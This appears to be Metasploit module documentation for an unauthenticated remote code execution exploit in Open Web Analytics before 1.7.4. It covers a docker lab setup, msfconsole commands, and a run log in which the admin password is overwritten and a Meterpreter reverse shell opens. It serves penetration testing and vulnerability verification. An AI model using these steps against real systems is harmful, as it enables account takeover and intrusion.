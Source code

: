 ## Vulnerable Application

Open Web Analytics (OWA) before 1.7.4 allows an unauthenticated
remote attacker to obtain sensitive user information, which can be
used to gain admin privileges by leveraging cache hashes. This occurs
because files generated with '<?php (instead of the intended "<?php sequence) aren't
handled by the PHP interpreter.

## Verification Steps

1. Start a vulnerable instance of OWA using docker
    - Download https://github.com/Pflegusch/CVE-2022-24637/blob/main/deployment/docker-compose.yml
    - Start the containers: `docker compose up -d`
    - Open http://127.0.0.1:80/
    - Follow installation steps using the envs from the `docker-compose.yml` file
        - Public URL: `http://127.0.0.1/`
        - Database Host (`docker inspect <db-container>` and get `IPAddress`, e.g `172.22.0.2`)
        - Database Port: `3306`
        - Database Name: `owa`
        - Database User: `owa`
        - Database Password: `Demo12+#`
        - Continue
        - Site Domain: `http://127.0.0.1`
        - Admin name: `admin`
        - E-Mail: `admin@admin.com`
        - Password: `Demo12+#`
        - Continue

2. Start `msfconsole`
3. `use exploit/multi/http/open_web_analytics_rce`
4. `set RHOSTS 127.0.0.1`
5. `set RPORT 80`
6. `set SSL false`
7. `set LHOST 172.22.0.1` -> this needs to be bridge IP that got created with the `docker compose up -d` command
8. `check`
9. `run`

## Options
### Password

When exploiting the target, the password of the attacked user will be overwritten with this password.

### Username

The user that will be targeted with this exploit.

## Advanced Options
### SearchLimit

The exploit works by retrieving a `temp_passkey` value from a cache file that gets created for each user when trying to login with it.
Since the `/owa-data/caches/` directory is publicly accessible, we can retrieve these cache files. The exact path for the cache files
depends on the `user_id` and can get calculated with that. This option defines how many calculated paths, starting from 0, should be
checked for cache files with the `temp_passkey` value in it.

## Scenarios
### Version 1.7.3 using docker deployment from above
```
msf exploit(multi/http/open_web_analytics_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(multi/http/open_web_analytics_rce) > set LHOST 172.22.0.1
LHOST => 172.22.0.1
msf exploit(multi/http/open_web_analytics_rce) > run

[*] Started reverse TCP handler on 172.22.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Open Web Analytics 1.7.3 is vulnerable
[+] Connected to http://127.0.0.1/ successfully!
[*] Attempting to find cache of 'admin' user
[+] Found temporary password for user 'admin': 85038e7e9f541ae4c4939d3044e628a5
[+] Changed the password of 'admin' to 'pwned'
[+] Logged in as admin user
[*] Creating log file
[+] Wrote payload to file
[*] Sending stage (39927 bytes) to 172.22.0.3
[+] Deleted QY0yivK4.php
[*] Meterpreter session 1 opened (172.22.0.1:4444 -> 172.22.0.3:55434) at 2023-03-15 01:28:54 +0100
[+] Triggering payload! Check your listener!

meterpreter > pwd
/var/www/html/owa-data/caches
meterpreter > getuid
Server username: www-data
meterpreter >
```
